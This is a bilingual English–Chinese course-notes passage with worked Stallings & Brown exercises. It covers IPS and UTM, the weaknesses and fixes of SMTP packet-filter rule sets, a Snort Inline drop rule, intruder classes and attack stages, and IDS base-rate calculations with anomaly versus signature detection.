E15. (Review Question 9.15, Stallings & Brown) How can an IPS attempt to block malicious activity?E15.（复习题 9.15，Stallings & Brown）IPS 如何尝试阻断恶意活动？
Answer
A network IPS uses these methods to identify malicious packets and then drops them or resets the connection:网络 IPS 使用以下方法识别恶意数据包，然后丢弃它们或复位连接：
- pattern matching: byte sequences (signatures) of known attacks in packets;模式匹配：数据包中已知攻击的字节序列（特征）；
- stateful matching: signatures searched in the context of a whole traffic stream;有状态匹配：在整个数据流的上下文中搜索特征；
- protocol anomaly: deviations from the standards of the protocol;协议异常：偏离协议标准的行为；
- traffic anomaly: unusual activity such as a flood of UDP packets or a new service on the network;流量异常：异常活动，例如大量 UDP 数据包的洪泛，或网络上出现新服务；
- statistical anomaly: deviations from a baseline of normal traffic.统计异常：偏离正常流量基线的行为。
A host-based IPS blocks by modifying or refusing system calls, by stopping code that violates policy in a sandbox, and by checking file and registry changes. Snort Inline supports the rule actions drop, reject and sdrop, and it can also modify a packet instead of dropping it.基于主机的 IPS 通过修改或拒绝系统调用、在沙箱中停止违反策略的代码，以及检查文件和注册表的变化来进行阻断。Snort Inline 支持 drop、reject 和 sdrop 等规则动作，它还可以修改数据包而不是丢弃它。
E16. (Review Question 9.16, Stallings & Brown) How does a UTM system differ from a firewall?E16.（复习题 9.16，Stallings & Brown）UTM 系统与防火墙有什么不同？
Answer
A firewall is a single security function: it filters traffic by policy. A unified threat management (UTM) system is one appliance that combines several inline network security functions. It must include at least network firewalling, network intrusion detection and prevention, and gateway anti-virus, and often also VPN, anti-spam, anti-spyware and content filtering.防火墙只有单一的安全功能：根据策略过滤流量。统一威胁管理（UTM）系统则是一台集成了多种内联网络安全功能的设备。它至少包括网络防火墙、网络入侵检测与防御，以及网关防病毒，通常还包括 VPN、反垃圾邮件、反间谍软件和内容过滤。
The benefit is lower administration and cost compared with managing many separate boxes. The main drawback is performance: throughput and latency suffer (throughput losses of about 50% have been reported), so a high-performance device is needed. A UTM is also a single point of failure.与管理多台独立设备相比，它的好处是管理工作量和成本更低。主要缺点是性能：吞吐量和延迟都会受到影响（据报道吞吐量损失约 50%），因此需要高性能的设备。此外，UTM 还是单点故障。
E17. (Problem 9.5, Stallings & Brown) SMTP servers listen on TCP port 25. The client end of the connection uses a TCP port above 1023. The following packet filter rule set permits inbound and outbound SMTP. The rules are checked in order A to E.E17.（习题 9.5，Stallings & Brown）SMTP 服务器监听 TCP 25 端口。客户端连接使用大于 1023 的 TCP 端口。下面的包过滤规则集允许入站和出站 SMTP。规则按 A 到 E 的顺序检查。
| Rule规则 | Direction方向 | Src addr源地址 | Dest addr目的地址 | Protocol协议 | Dest port目的端口 | Action动作 |
|---|---|---|---|---|---|---|
| A | In入站 | External外部 | Internal内部 | TCP | 25 | Permit允许 |
| B | Out出站 | Internal内部 | External外部 | TCP | >1023 | Permit允许 |
| C | Out出站 | Internal内部 | External外部 | TCP | 25 | Permit允许 |
| D | In入站 | External外部 | Internal内部 | TCP | >1023 | Permit允许 |
| E | Either双向 | Any任意 | Any任意 | Any任意 | Any任意 | Deny拒绝 |
(a) Describe the effect of each rule. (b) The host has address 172.16.1.1. A remote host 192.168.3.4 sends mail to it, and a user on the host sends mail to the SMTP server of the remote system. Four packets are: 1, In, 192.168.3.4 to 172.16.1.1, TCP, dest port 25; 2, Out, 172.16.1.1 to 192.168.3.4, TCP, dest port 1234; 3, Out, 172.16.1.1 to 192.168.3.4, TCP, dest port 25; 4, In, 192.168.3.4 to 172.16.1.1, TCP, dest port 1357. Which are permitted or denied, and by which rule? (c) An outsider at 10.1.2.3 tries to open a connection from port 5150 to the Web proxy server on port 8080 of the local host 172.16.3.4. The packets are: 5, In, 10.1.2.3 to 172.16.3.4, TCP, dest port 8080; 6, Out, 172.16.3.4 to 10.1.2.3, TCP, dest port 5150. Will the attack succeed?(a) 说明每条规则的作用。(b) 主机地址为 172.16.1.1。远程主机 192.168.3.4 向它发送邮件，主机上的一个用户也向远程系统的 SMTP 服务器发送邮件。四个数据包如下：1，入站，192.168.3.4 到 172.16.1.1，TCP，目的端口 25；2，出站，172.16.1.1 到 192.168.3.4，TCP，目的端口 1234；3，出站，172.16.1.1 到 192.168.3.4，TCP，目的端口 25；4，入站，192.168.3.4 到 172.16.1.1，TCP，目的端口 1357。哪些被允许或拒绝，依据哪条规则？(c) 外部人员 10.1.2.3 试图从 5150 端口向本地主机 172.16.3.4 的 8080 端口上的 Web 代理服务器发起连接。数据包如下：5，入站，10.1.2.3 到 172.16.3.4，TCP，目的端口 8080；6，出站，172.16.3.4 到 10.1.2.3，TCP，目的端口 5150。攻击会成功吗？
Answer
(a) Rule A lets external clients open connections to the SMTP server (port 25) of internal hosts. Rule B lets the internal server send its replies back to the client's port above 1023. Rule C lets internal clients open connections to external SMTP servers. Rule D lets the replies of those external servers come back to the internal client's port above 1023. Rule E denies everything else (default deny).(a) 规则 A 允许外部客户端连接内部主机的 SMTP 服务器（25 端口）。规则 B 允许内部服务器把应答发回客户端大于 1023 的端口。规则 C 允许内部客户端连接外部 SMTP 服务器。规则 D 允许这些外部服务器的应答返回内部客户端大于 1023 的端口。规则 E 拒绝其他一切（默认拒绝）。
(b)
| Packet数据包 | Matches匹配 | Action动作 |
|---|---|---|
| 1 (In, dest 25)1（入站，目的端口 25） | Rule A规则 A | Permit允许 |
| 2 (Out, dest 1234)2（出站，目的端口 1234） | Rule B (1234 > 1023)规则 B（1234 > 1023） | Permit允许 |
| 3 (Out, dest 25)3（出站，目的端口 25） | Rule C规则 C | Permit允许 |
| 4 (In, dest 1357)4（入站，目的端口 1357） | Rule D (1357 > 1023)规则 D（1357 > 1023） | Permit允许 |
All four are permitted, so both mail transfers work.四个数据包都被允许，因此两个方向的邮件传输都能正常进行。
(c) Packet 5 is inbound with destination port 8080. It does not match rule A (port 25), but it matches rule D, because 8080 is above 1023, so it is permitted. Packet 6 is outbound with destination port 5150, which matches rule B (5150 is above 1023), so it is permitted. The attack succeeds. The rules look only at the destination port and cannot tell a reply from a new connection, so rules B and D leave every high port open to any connection attempt.(c) 数据包 5 是入站的，目的端口为 8080。它不匹配规则 A（25 端口），但因为 8080 大于 1023，所以匹配规则 D，因此被允许。数据包 6 是出站的，目的端口为 5150，它匹配规则 B（5150 大于 1023），因此也被允许。攻击成功。规则只看目的端口，无法区分应答与新连接，因此规则 B 和 D 让所有高端口都对任何连接尝试敞开。
思路：规则只看目的端口，>1023 的规则对任何新连接都放行，所以 8080 的攻击通过。
E18. (Problem 9.7, Stallings & Brown) The SMTP rule set is made stricter by also testing the source port. The rules are checked in order A to E.E18.（习题 9.7，Stallings & Brown）通过同时检查源端口，使 SMTP 规则集更严格。规则按 A 到 E 的顺序检查。
| Rule规则 | Direction方向 | Src addr源地址 | Dest addr目的地址 | Protocol协议 | Src port源端口 | Dest port目的端口 | Action动作 |
|---|---|---|---|---|---|---|---|
| A | In入站 | External外部 | Internal内部 | TCP | >1023 | 25 | Permit允许 |
| B | Out出站 | Internal内部 | External外部 | TCP | 25 | >1023 | Permit允许 |
| C | Out出站 | Internal内部 | External外部 | TCP | >1023 | 25 | Permit允许 |
| D | In入站 | External外部 | Internal内部 | TCP | 25 | >1023 | Permit允许 |
| E | Either双向 | Any任意 | Any任意 | Any任意 | Any任意 | Any任意 | Deny拒绝 |
A hacker at 10.1.2.3 uses port 25 as the client port to open a connection to the Web proxy server on port 8080 of 172.16.3.4. The packets are: 7, In, 10.1.2.3 to 172.16.3.4, TCP, source port 25, dest port 8080; 8, Out, 172.16.3.4 to 10.1.2.3, TCP, source port 8080, dest port 25. (a) Explain why this attack succeeds with this rule set. (b) A TCP connection request has the ACK bit clear, and all later segments of the connection have the ACK bit set. Use this to modify the rule set so that the attack fails.一个来自 10.1.2.3 的攻击者把 25 端口用作客户端端口，向 172.16.3.4 的 8080 端口上的 Web 代理服务器发起连接。数据包如下：7，入站，10.1.2.3 到 172.16.3.4，TCP，源端口 25，目的端口 8080；8，出站，172.16.3.4 到 10.1.2.3，TCP，源端口 8080，目的端口 25。(a) 解释为什么该攻击在这套规则集下能够成功。(b) TCP 连接请求的 ACK 位为 0，该连接之后的所有报文段的 ACK 位都为 1。利用这一点修改规则集，使攻击失效。
Answer
(a) Packet 7 does not match rule A (destination port is 8080, not 25). It matches rule D: inbound, source port 25, destination port 8080 which is above 1023. It is permitted. Packet 8 is outbound with source port 8080 and destination port 25. Rule B needs source port 25, so it does not match, but rule C does (source port 8080 is above 1023, destination port 25). It is permitted. The attacker has made the filter treat the new connection as a reply from a mail server, because the source port is under the sender's control and the filter does not know the connection state.(a) 数据包 7 不匹配规则 A（目的端口是 8080，而不是 25）。它匹配规则 D：入站，源端口 25，目的端口 8080 大于 1023。因此被允许。数据包 8 是出站的，源端口为 8080，目的端口为 25。规则 B 要求源端口为 25，因此不匹配，但规则 C 匹配（源端口 8080 大于 1023，目的端口 25），因此被允许。攻击者让过滤器把新连接当作邮件服务器的应答，原因在于源端口由发送方控制，而过滤器并不了解连接状态。
(b) Add the condition "ACK flag set" to the rules that are only for replies, B and D:(b) 把"ACK 标志置位"条件加到只用于应答的规则 B 和 D 上：
| Rule规则 | Direction方向 | Src addr源地址 | Dest addr目的地址 | Protocol协议 | Src port源端口 | Dest port目的端口 | Flags标志 | Action动作 |
|---|---|---|---|---|---|---|---|---|
| A | In入站 | External外部 | Internal内部 | TCP | >1023 | 25 | any | Permit允许 |
| B | Out出站 | Internal内部 | External外部 | TCP | 25 | >1023 | ACK | Permit允许 |
| C | Out出站 | Internal内部 | External外部 | TCP | >1023 | 25 | any | Permit允许 |
| D | In入站 | External外部 | Internal内部 | TCP | 25 | >1023 | ACK | Permit允许 |
| E | Either双向 | Any任意 | Any任意 | Any任意 | Any任意 | Any任意 | any | Deny拒绝 |
Packet 7 is the first packet of a new connection (SYN, ACK clear), so rule D no longer matches and it falls through to rule E and is denied. The connection cannot be set up, so the attack fails. Replies of legitimate mail connections always have ACK set, so they still pass. This gives some of the effect of stateful inspection without a state table, but an attacker can still send packets with the ACK bit set (which is not a connection), so it is weaker than a stateful firewall.数据包 7 是新连接的第一个数据包（SYN，ACK 位为 0），因此规则 D 不再匹配，落到规则 E 被拒绝。连接无法建立，攻击失败。合法邮件连接的应答总带有 ACK 位，因此仍能通过。这相当于在不使用状态表的情况下获得了部分状态检测的效果，但攻击者仍可以发送 ACK 位置位的数据包（这并不是一个真正的连接），因此它比状态检测防火墙弱。
E19. (Problem 9.14, Stallings & Brown) The following Snort rule detects a SYN-FIN attack. It is used on a Snort Inline IPS. How would you modify the rule to block such packets entering the home network?E19.（习题 9.14，Stallings & Brown）下面的 Snort 规则用于检测 SYN-FIN 攻击，它用在 Snort Inline IPS 上。应如何修改该规则，以阻止此类数据包进入家庭网络？
alert tcp $EXTERNAL_NET any -> $HOME_NET any (msg: "SCAN SYN FIN"; flags: SF,12; reference: arachnids,198; classtype: attempted-recon;)
Answer
The rule only raises an alert for TCP packets from the external network to the home network (any ports) in which the SYN and FIN flags are both set (SF) and the two reserved bits are ignored (the 12 mask). A normal TCP packet never has SYN and FIN together, so such a packet is a scan or an attempt to evade the firewall.该规则只对来自外部网络、发往家庭网络的 TCP 数据包（任意端口）发出告警，条件是 SYN 和 FIN 标志同时置位（SF），并忽略两个保留位（掩码为 12）。正常的 TCP 数据包从不会同时带有 SYN 和 FIN，因此这类数据包属于扫描或试图躲避防火墙的行为。
Snort Inline adds the rule actions drop, reject and sdrop. To block the packets, change the action keyword from alert to drop and keep the rest:Snort Inline 增加了 drop、reject 和 sdrop 等规则动作。要阻断这些数据包，把动作关键字从 alert 改为 drop，其余保持不变：
drop tcp $EXTERNAL_NET any -> $HOME_NET any (msg: "SCAN SYN FIN"; flags: SF,12; reference: arachnids,198; classtype: attempted-recon;)
Now every matching packet is discarded and logged. Using reject would also send a TCP reset to the sender, and sdrop would drop without logging. The sensor must be inline (in the packet path), otherwise it cannot stop packets.此后，每个匹配的数据包都会被丢弃并记录日志。若使用 reject，还会向发送方返回 TCP 复位；若使用 sdrop，则会丢弃但不记录日志。传感器必须是内联的（位于数据包路径上），否则无法阻止数据包。
Chapter 22Intrusion Detection, Snort and Honeypots入侵检测、Snort 与蜜罐Reading: Stallings & Brown Ch. 8
Intruders and the Attack Methodology ★★入侵者与攻击方法论
Goal. Place an attacker action in one of the six steps of an intrusion, and explain why supply-chain attacks and business e-mail compromise are hard to stop.目标。 把攻击者的一个行为归入入侵的六个步骤之一，并解释为什么供应链攻击和商业电子邮件欺诈难以阻止。
An intruder（入侵者）is a hacker or cracker who gains, or tries to gain, unauthorized access or privileges. The classes differ in motivation, and motivation shapes the defence.入侵者是指获取或试图获取未授权访问或权限的黑客或破解者。不同类别的入侵者动机不同，而动机决定了防御方式。
| Class类别 | Goal目标 | Typical activity典型活动 |
|---|---|---|
| Cyber criminals（网络犯罪者） | Financial reward经济回报 | Credential and data theft, ransoming, espionage窃取凭据与数据、勒索、间谍活动 |
| Activists（hacktivists，激进黑客） | Social or political cause社会或政治目的 | Defacement, denial of service, leaks; often low skill篡改页面、拒绝服务、泄露信息；通常技术水平较低 |
| State-sponsored（国家背景组织） | Espionage, sabotage间谍活动、破坏 | Covert, long-running campaigns: advanced persistent threats（APT，高级持续性威胁）隐蔽、长期的行动：高级持续性威胁（APT） |
| Others其他 | Challenge, peer esteem挑战自我、同侪认可 | Classic hackers and hobbyists using toolkits使用工具包的传统黑客与业余爱好者 |
Skill cuts across the classes. Beginners（script kiddies，脚本小子）run existing toolkits and are easiest to defend against. Skilled attackers adapt toolkits. Experts find new classes of vulnerability and are hardest to stop. An intrusion detection system copes well with known, simple attacks and poorly with targeted zero-day attacks. So it is one layer of defence in depth（纵深防御）.技能水平与类别无关，各类都可能出现。初学者（脚本小子）运行现成的工具包，最容易防御。熟练的攻击者会改造工具包。专家能发现新型漏洞，最难阻止。入侵检测系统对已知的简单攻击效果较好，对有针对性的零日攻击效果较差。因此它只是纵深防御中的一层。
The six-step methodology六步方法论
In words: an attack is a sequence: find the target, get in, gain power, take what is wanted, stay, and hide. Each step leaves traces that an intrusion detection system can look for.用文字表述：攻击是一个序列：找到目标、进入系统、获取权限、拿走想要的东西、留住立足点、隐藏痕迹。每一步都会留下痕迹，入侵检测系统可以去寻找。
| Step步骤 | Examples示例 |
|---|---|
| 1 Target acquisition and information gathering1 目标获取与信息收集 | Website review; DNS lookups (dig, host) and WHOIS; service mapping with NMAP审查网站；DNS 查询（dig、host）与 WHOIS；使用 NMAP 进行服务映射 |
| 2 Initial access2 初始访问 | Remote vulnerability; guessed password; spear-phishing link; drive-by download; supply-chain attack远程漏洞；猜测口令；鱼叉式钓鱼链接；驱动式下载；供应链攻击 |
| 3 Privilege escalation3 权限提升 | Local exploit; sniffer capturing administrator passwords本地漏洞利用；嗅探器捕获管理员口令 |
| 4 Information gathering or system exploit4 信息收集或系统漏洞利用 | Copy documents; reuse captured passwords on other servers复制文档；在其他服务器上重用截获的口令 |
| 5 Maintaining access5 维持访问 | Backdoor, rootkit or remote administration tool; covert credentials; disabling antivirus or the IDS后门、rootkit 或远程管理工具；隐蔽凭据；禁用杀毒软件或入侵检测系统 |
| 6 Covering tracks6 清除痕迹 | Edit or disable audit logs; rootkit hiding files篡改或禁用审计日志；rootkit 隐藏文件 |
Example: an attacker looks up the DNS records of a shop (step 1). He sends a staff member a link to a browser exploit (step 2). A local flaw makes him root (step 3). He copies customer files (step 4), installs a remote administration tool (step 5) and deletes the log entries (step 6). Credentials link most steps (Chapter 17); malware is covered in Chapter 18.例：攻击者查询某商店的 DNS 记录（第 1 步）。他给一名员工发送一个浏览器漏洞利用链接（第 2 步）。一个本地漏洞使他获得 root 权限（第 3 步）。他复制客户文件（第 4 步），安装远程管理工具（第 5 步），并删除日志条目（第 6 步）。凭证贯穿大多数步骤（第 17 章）；恶意软件在第 18 章介绍。
Supply-chain attacks and business e-mail compromise供应链攻击与商业电子邮件欺诈
A supply-chain attack（供应链攻击）compromises a supplier of widely used software. Customers then receive the malicious code through the normal update channel. It is hard to prevent or detect, because it abuses vendor trust and automatic updates. The defence is to assess third-party components in risk management.供应链攻击攻击的是广泛使用的软件的供应商。客户随后通过正常的更新渠道收到恶意代码。它很难预防或发现，因为它利用的是对供应商的信任和自动更新。防御办法是在风险管理中评估第三方组件。
In business e-mail compromise（BEC，商业电子邮件欺诈）the attacker takes over a business mailbox. He reads the correspondence and sends invoices or "change of account" requests. Such messages rarely carry a malicious link or attachment, so they often evade anti-virus and spam filters.在商业电子邮件欺诈（BEC）中，攻击者接管企业的邮箱。他阅读往来邮件，然后发出发票或"更改账户"的请求。这类邮件很少带有恶意链接或附件，因此常常能躲过杀毒软件和垃圾邮件过滤器。
Practice练习
Q1. (Classify) Assign each action to a step of the six-step methodology: (a) running dig and WHOIS queries on the victim's domain; (b) e-mailing key staff a link to a browser exploit; (c) exploiting a vulnerable local program to become root; (d) using a captured password to copy documents from a second server; (e) installing a remote administration tool for later access; (f) deleting the intrusion entries from the log files.Q1.（归类）将每项行为归入六步方法论中的某一步骤：（a）对受害者域名运行 dig 与 WHOIS 查询；（b）向关键员工发送含浏览器漏洞利用的链接；（c）利用存在漏洞的本地程序获得 root 权限；（d）使用截获的口令从第二台服务器复制文档；（e）为便于日后访问而安装远程管理工具；（f）从日志文件中删除入侵记录。
Answer
(a) Target acquisition and information gathering. (b) Initial access (spear phishing). (c) Privilege escalation. (d) Information gathering or system exploit. (e) Maintaining access. (f) Covering tracks.（a）目标获取与信息收集。（b）初始访问（鱼叉式钓鱼）。（c）权限提升。（d）信息收集或系统漏洞利用。（e）维持访问。（f）清除痕迹。
Q2. (Explain) Why is a supply-chain attack hard to prevent and detect, and why does business e-mail compromise pass anti-virus and spam filters?Q2.（解释）为什么供应链攻击难以预防和检测？为什么商业电子邮件欺诈能够绕过杀毒软件和垃圾邮件过滤器？
Answer
A supply-chain attack delivers the malicious code through the vendor's trusted distribution or automatic update channel, so customers have no reason to block it and many are hit at once; the defence is to assess third-party components in risk management. BEC uses a genuinely compromised mailbox and contains no malicious link or attachment, so filters find nothing to match; the fraud shows up only when accounts are reconciled.供应链攻击通过厂商可信的分发渠道或自动更新渠道投递恶意代码，因此客户没有理由阻止它，而且许多客户会同时中招；防御办法是在风险管理中评估第三方组件。商业电子邮件欺诈使用的是确实已被攻陷的邮箱，不含恶意链接或附件，因此过滤器无可匹配的内容；只有在对账时，欺诈才会暴露。
Intrusion Detection and the Base-Rate Fallacy ★★★入侵检测与基率谬误
Goal. Define the parts of an IDS, classify detection outcomes, and compute with Bayes' theorem the share of alarms that are real. Explain why most alarms are false when intrusions are rare.目标。 定义 IDS 的组成部分，对检测结果进行分类，并用贝叶斯定理计算真实警报所占的比例。解释当入侵很少见时，为什么大多数警报都是误报。
Step 1: what an IDS is made of第 1 步：IDS 由什么组成
In words: an IDS = sensors that watch, analyzers that judge, and a screen that tells the operator.用文字表述：IDS = 负责监视的传感器、负责判断的分析器，以及告诉操作员结果的屏幕。
A security intrusion（安全入侵）is an unauthorized act of bypassing the security mechanisms of a system. Intrusion detection（入侵检测）gathers and analyzes information from a computer or network to find possible intrusions. An intrusion detection system (IDS)（入侵检测系统）has three logical components.安全入侵是指绕过系统安全机制的未授权行为。入侵检测是指从计算机或网络中收集并分析信息，以发现可能的入侵。入侵检测系统（IDS）有三个逻辑组件。
- Sensors（传感器）collect data from anything that may hold evidence: network packets, log files, system call traces. They forward it to the analyzer.传感器从任何可能包含证据的来源收集数据：网络数据包、日志文件、系统调用跟踪。它们把数据转发给分析器。
- Analyzers（分析器）take input from sensors or other analyzers and decide whether an intrusion has occurred. The output may include evidence and advice.分析器接收来自传感器或其他分析器的输入，判断是否发生了入侵。其输出可以包括证据和建议。
- The user interface lets an operator view the output and control the IDS.用户界面让操作员查看输出并控制 IDS。
By data source an IDS is one of three kinds. A host-based IDS (HIDS)（基于主机）monitors one host and its events. A network-based IDS (NIDS)（基于网络）monitors traffic on network segments. A distributed or hybrid IDS combines host and network sensors in a central analyzer. Detection assumes that intruder behaviour differs from legitimate behaviour in ways that can be measured.按数据源划分，IDS 有三种类型。基于主机的 IDS（HIDS）监视一台主机及其事件。基于网络的 IDS（NIDS）监视网段上的流量。分布式或混合式 IDS 把主机传感器和网络传感器结合在一个中央分析器中。检测的前提是：入侵者的行为可以用某些可测量的方式区别于合法用户的行为。
Step 2: the four outcomes of a decision第 2 步：判断的四种结果
In words: an alarm can be right or wrong, and silence can be right or wrong, which gives four outcomes.用文字表述：警报可能对，也可能错；沉默也可能对，也可能错，因此共有四种结果。
| IDS raises alarm入侵检测系统发出告警 | IDS silent入侵检测系统无告警 | |
|---|---|---|
| Intrusion入侵 | true positive (TP)真阳性（TP） | false negative（FN，漏报）: intruder missed漏报（FN）：入侵者未被发现 |
| Normal use正常使用 | false positive（FP，误报）: false alarm误报（FP）：错误告警 | true negative (TN)真阴性（TN） |
The profile of the intruder and the profile of authorized users overlap, so no threshold separates them perfectly. A loose threshold catches more intruders but raises more false alarms. A tight threshold limits false alarms but misses more intruders. Detection is always a compromise.入侵者的特征与授权用户的特征有重叠，因此没有任何阈值能完美地把两者分开。宽松的阈值能抓到更多入侵者，但会产生更多误报。严格的阈值能减少误报，但会漏掉更多入侵者。检测总是一种折中。
An example: 50 of 100 intrusions raise an alarm, so DR = 50 ÷ (50 + 50) = 50%. Of 10,000 normal events 200 raise an alarm, so FAR = 200 ÷ 10,000 = 2%.举例：100 次入侵中有 50 次触发警报，因此 DR = 50 ÷ (50 + 50) = 50%。在 10,000 个正常事件中，有 200 个触发警报，因此 FAR = 200 ÷ 10,000 = 2%。
Step 3: the base-rate fallacy第 3 步：基率谬误
In words: when attacks are very rare, even a small share of false alarms on a huge number of normal events outnumbers the true alarms.用文字表述：当攻击非常罕见时，在大量正常事件中产生的少量误报，就会多于真实警报。
The base-rate fallacy（基率谬误）is judging an alarm by DR and FAR alone and ignoring the base rate. The question to answer is: given an alarm, what is the probability that it is a real intrusion? This is Bayes' theorem. Its counting form is: real alarms divided by all alarms.基率谬误是指只凭 DR 和 FAR 判断一条警报，而忽略了基率。要回答的问题是：给定一条警报，它是真实入侵的概率是多少？这就是贝叶斯定理。它的计数形式是：真实警报数除以全部警报数。
The same IDS (DR 0.99, FAR 0.01) at different base rates:同一个 IDS（DR 0.99，FAR 0.01）在不同基率下的表现：
| Base rate \(p\) | \(10^{-2}\) | \(10^{-3}\) | \(10^{-4}\) | \(10^{-5}\) |
|---|---|---|---|---|
| \(P(I\mid A)\) at DR 0.99, FAR 0.01 | 50% | 9.0% | 0.98% | 0.099% |
The lower the base rate, the lower the share of real alarms. The table shows that, once the base rate is small, the share falls by about a factor of ten each time the base rate does.基率越低，真实警报所占的比例就越低。表中显示，一旦基率很小，基率每下降十倍，真实警报的比例大致也下降十倍。
How many false alarms can we tolerate? Solve the Bayes formula for FAR. Let \(\pi\) be the share of real alarms that we require.能容忍多少误报？ 对贝叶斯公式求解 FAR。设 \(\pi\) 为我们要求的真实警报比例。
Example: DR = 0.99 and \(p\) = 0.001 with \(\pi\) = 0.5 give FAR ≤ 0.99 × 0.001 ÷ 0.999 ≈ 0.00099, that is 0.099%. Today's detectors rarely reach such a low FAR.例：DR = 0.99，\(p\) = 0.001，\(\pi\) = 0.5，得出 FAR ≤ 0.99 × 0.001 ÷ 0.999 ≈ 0.00099，即 0.099%。当今的检测器很少能达到如此低的误报率。
Practice练习
Q1. (Calculation) An IDS has DR = 95% and FAR = 2%. One event in 5,000 is an intrusion. What fraction of the alarms are real?Q1.（计算）某入侵检测系统的 DR = 95%，FAR = 2%。每 5,000 个事件中有一个是入侵。告警中真告警所占的比例是多少？
Answer
\(p=1/5000=0.0002\), so \(P(I\mid A)=\dfrac{0.95\cdot0.0002}{0.95\cdot0.0002+0.02\cdot0.9998}=\dfrac{0.00019}{0.020186}\approx0.0094\), i.e. 0.94%. Per 5,000 events there are 0.95 true alarms and about 100 false alarms (\(0.02\times4999\)), so about 99% of the alarms are false: the base-rate fallacy.\(p=1/5000=0.0002\)，因此 \(P(I\mid A)=\dfrac{0.95\cdot0.0002}{0.95\cdot0.0002+0.02\cdot0.9998}=\dfrac{0.00019}{0.020186}\approx0.0094\)，即 0.94%。每 5,000 个事件中有 0.95 个真告警和约 100 个误报（\(0.02\times4999\)），因此约 99% 的告警为误报：即基率谬误。
Q2. (Calculation) There is 1 intruder per 1,000 authorized users. The overlap of the two behaviour profiles covers 1% of the authorized users and 50% of the intruders. What is the probability that an event in the overlap comes from an authorized user?Q2.（计算）每 1,000 名授权用户中有 1 名入侵者。两种行为画像的重叠部分覆盖 1% 的授权用户和 50% 的入侵者。落在重叠部分的事件来自授权用户的概率是多少？
Answer
Per 1,001 users the overlap holds \(0.01\times1000=10\) authorized users and \(0.5\times1=0.5\) intruders. \(P=10/(10+0.5)=20/21\approx95.2\%\). Half of all intrusions lie in the overlap, yet an event there is almost certainly benign because authorized users are so numerous.每 1,001 名用户中，重叠部分包含 \(0.01\times1000=10\) 名授权用户和 \(0.5\times1=0.5\) 名入侵者。\(P=10/(10+0.5)=20/21\approx95.2\%\)。全部入侵中有一半位于重叠部分，但由于授权用户数量庞大，该部分的事件几乎肯定是良性的。
Q3. (True or false) "Tightening the detection threshold lowers both false positives and false negatives."Q3.（判断）“收紧检测阈值会同时降低误报和漏报。”
Answer
False. A tight interpretation of intruder behaviour lowers false positives but misses more intruders, so false negatives rise; a loose one does the opposite. Only a better detector, with less overlap between the profiles, improves both.错误。对入侵者行为的严格解释会降低误报，但会漏掉更多入侵者，因此漏报增多；宽松解释则相反。只有更好的检测器，即两种画像之间重叠更少，才能同时改善二者。
Anomaly Detection versus Signature Detection ★★★异常检测与特征检测
Goal. Define both approaches, compare them in a table, name the families of anomaly detection, and say which approach fits a given attack.目标。 定义两种方法，用表格比较它们，说出异常检测的几类方法，并判断哪种方法适用于给定的攻击。
Step 1: the two ideas第 1 步：两种思路
In words: anomaly detection = learn what is normal and shout at anything different; signature detection = know what is bad and shout when you see it.用文字表述：异常检测 = 学习什么是正常的，对任何不同的东西发出警报；特征检测 = 知道什么是恶意的，一旦看到就发出警报。
Anomaly detection（异常检测）defines normal behaviour and flags deviations. It has two phases. In the training phase a model of legitimate behaviour is built from sensor data of normal operation. In the detection phase observed behaviour is compared with the model and classified as legitimate or anomalous.异常检测定义正常行为，并标记偏离正常的行为。它分为两个阶段。在训练阶段，根据正常运行时的传感器数据建立合法行为的模型。在检测阶段，把观察到的行为与模型比较，并将其判定为合法或异常。
Signature or heuristic detection（特征/启发式检测, also called misuse detection）defines malicious behaviour and flags matches. A signature is a known malicious pattern, matched against data on a system or in transit. Anti-virus products, scanning proxies and network IDSs use signatures. Rule-based heuristic identification uses rules for known penetrations, for penetrations of known weaknesses and for suspicious behaviour within normal use. Snort (Section 22.7) is a rule-based NIDS.特征或启发式检测（也称误用检测）定义恶意行为，并标记与之匹配的行为。特征是一种已知的恶意模式，它与系统上的数据或传输中的数据进行匹配。杀毒产品、扫描代理和网络 IDS 都使用特征。基于规则的启发式识别使用规则来识别已知的入侵、针对已知弱点的入侵，以及正常使用中的可疑行为。Snort（第 22.7 节）是一种基于规则的 NIDS。
Signatures must be long enough to keep false alarms low and still cover many malicious items. They need constant effort: new malware must be analyzed and new signatures written.特征必须足够长，才能把误报控制在低水平，同时又能覆盖大量恶意样本。它们需要持续投入：新的恶意软件必须被分析，新的特征必须被编写。
Step 2: three families of anomaly detection第 2 步：异常检测的三类方法
| Approach方式 | Method方法 | Advantages优点 | Disadvantages缺点 |
|---|---|---|---|
| Statistical统计型 | Univariate, multivariate or time-series models of metrics (IDES, Denning and Neumann)指标的单变量、多变量或时间序列模型（IDES，Denning 与 Neumann） | Simple, cheap, no assumed behaviour简单、廉价，无需假定行为 | Hard to choose metrics that balance false positives and negatives; not all behaviour fits难以选择能兼顾误报与漏报的指标；并非所有行为都符合模型 |
| Knowledge-based基于知识型 | Expert-system rules, e.g. finite-state machines专家系统规则，例如有限状态机 | Robust, flexible稳健、灵活 | Rules are built by hand by experts: slow规则由专家手工建立：速度慢 |
| Machine learning机器学习型 | Model learned from normal data: Bayesian networks, Markov models, neural networks, fuzzy logic, genetic algorithms, clustering and outlier detection从正常数据中学习模型：贝叶斯网络、马尔可夫模型、神经网络、模糊逻辑、遗传算法、聚类与离群点检测 | Flexible, adaptive, captures dependencies between metrics灵活、自适应，能够捕捉指标之间的依赖关系 | Costly to train, high false alarm rate, relies on assumed normal behaviour训练成本高，误报率高，依赖于假定的正常行为 |
Anomaly detectors are trained on legitimate data only. Examples of future, unknown attacks do not exist, which limits some techniques.异常检测器只用合法数据训练。未来的未知攻击样本并不存在，这限制了某些技术的使用。
Step 3: the comparison第 3 步：比较
| Anomaly detection异常检测 | Signature or heuristic detection特征或启发式检测 | |
|---|---|---|
| Zero-day attacks零日攻击 | Can detect可以检测 | Cannot detect无法检测 |
| False alarms误报 | High高 | Low for known patterns对已知模式的误报率低 |
| Cost成本 | Costly training and model upkeep训练和模型维护成本高 | Cheap per check; continual signature updates每次检查成本低；需要持续更新特征 |
| Typical use典型应用 | Network anomaly engines (SPADE for Snort), research HIDSs网络异常检测引擎（如用于 Snort 的 SPADE）、研究用 HIDS | Anti-virus, Snort rules, most deployed HIDSs杀毒软件、Snort 规则以及大多数已部署的 HIDS |
Example: a worm sends the same 400-byte payload to every victim. A signature of that payload matches exactly and cheaply. A new exploit has no signature, so only its unusual traffic or system call sequence can reveal it.例：一条蠕虫向每个受害者发送相同的 400 字节载荷。针对该载荷的特征可以精确、低成本地匹配它。一种新的利用代码没有特征，因此只能通过其异常的流量或系统调用序列来发现。
Practice练习
